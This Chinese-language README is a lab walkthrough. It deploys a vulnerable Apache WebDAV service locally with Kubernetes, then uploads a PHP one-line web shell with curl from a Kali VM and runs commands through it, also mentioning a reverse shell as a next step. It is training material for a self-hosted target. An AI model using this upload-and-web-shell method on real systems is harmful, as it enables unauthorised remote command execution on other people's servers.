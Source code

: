 # 簡單滲透作業示範

本示例展示如何利用 Docker 結合 Kubernetes（kubectl）在 Mac Ventura 上部署目標 Web 服務，並在 Kali VM 上利用 WebDAV 漏洞上傳一句話木馬 (shell.php) 進行滲透攻擊。  
**注意：** 此示例僅供學習用途，請勿在未經授權的情況下使用。

---

## 1. 部署目標服務（本機端 - Mac Ventura）

1. **部署服務：**  
   - 在終端機中執行以下指令，使用附檔 `k8s.yaml` 部署目標服務：
     ```bash
     kubectl apply -f k8s.yaml
     ```

2. **查詢 Service 狀態：**  
   - 在本機瀏覽器中訪問：
     ```
     kubectl get svc -n namespace-double-nodes
     ```

3. **端口轉發：**  
   - 將服務的 80 號端口轉發到本機 10088 端口：
     ```bash
     kubectl port-forward service/service-internet 10088:80 -n namespace-double-nodes --address 0.0.0.0
     ```
     
4. **確認連線：**  
   - 在本機瀏覽器中訪問：
     ```
     http://127.0.0.1:10088
     ```
   - 若能看到 Apache httpd 2.2.8 與 DAV/2 標記的頁面，即表示服務正常運作。

---

## 2. 準備 Kali VM 進行滲透測試

1. **確認連線：**  
   - 在 Kali VM 終端機中執行：
     ```bash
     ping 127.0.0.1
     ```
   - ※ 注意：若 Kali 與本機位於不同網段，請使用正確的 IP。

2. **掃描服務：**  
   - 在 Kali VM 中執行 nmap 掃描確認服務版本：
     ```bash
     nmap -sV -p 10088 127.0.0.1
     ```
   - 結果應顯示 Apache httpd 2.2.8 ((Ubuntu) DAV/2)，表明 WebDAV 可能啟用且版本過舊，存在漏洞風險。

---

## 3. 製作木馬檔 (shell.php)（Kali VM）

1. **建立木馬檔：**  
   - 在 Kali VM 中執行：
     ```bash
     echo "<?php system(\$_GET['cmd']); ?>" > shell.php
     ```
   - 用文字編輯器檢查檔案，內容應為：
     ```php
     <?php system($_GET['cmd']); ?>
     ```

---

## 4. 利用 WebDAV 漏洞上傳木馬（Kali VM）

1. **嘗試上傳木馬：**  
   - 使用 curl 嘗試將 `shell.php` 上傳到目標服務（假設 WebDAV 允許匿名上傳）：
     ```bash
     curl -T shell.php http://127.0.0.1:10088/dav/
     ```
   - 若上傳成功，`shell.php` 應位於服務的根目錄。

---

## 5. 驗證滲透攻擊（Kali VM）

1. **測試木馬：**  
   - 在 Kali VM 的瀏覽器中訪問以下 URL：
     ```
     curl http://127.0.0.1:10088/shell.php?cmd=whoami
     ```
   - 若返回執行結果（例如 Apache 的運行使用者），則表示成功利用漏洞執行命令。

---

## 6. 後續操作

- 一旦取得命令執行，便可進一步利用該木馬執行更多命令或反彈 shell。  
- 請根據目標環境調整攻擊策略與後續滲透步驟。

---

> **注意：**  
> 此示例僅供學習用途，請遵守相關法律與倫理規範，勿在未經授權的情況下進行滲透測試。
